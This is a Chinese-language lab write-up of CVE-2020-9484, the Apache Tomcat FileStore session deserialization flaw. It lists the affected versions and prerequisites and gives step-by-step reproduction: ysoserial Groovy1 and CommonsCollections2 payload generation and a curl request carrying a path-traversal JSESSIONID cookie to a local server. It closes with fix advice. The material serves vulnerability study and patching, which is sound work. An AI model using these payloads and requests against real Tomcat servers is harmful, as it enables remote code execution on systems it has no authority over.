






# CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本

Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件

1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现

需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat

```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件

注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```


#### 下载反序列化相关工具

1. groovy

`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`

将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）



2. ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

#### 启动tomcat

```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```


#### 攻击过程

1. 生成payload

`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`



2. 使用test.session

在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 linux

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`


此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2

CommonsCollections2不用下载
`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`


## 五、修复建议

修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore

## 六、参考文章

1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
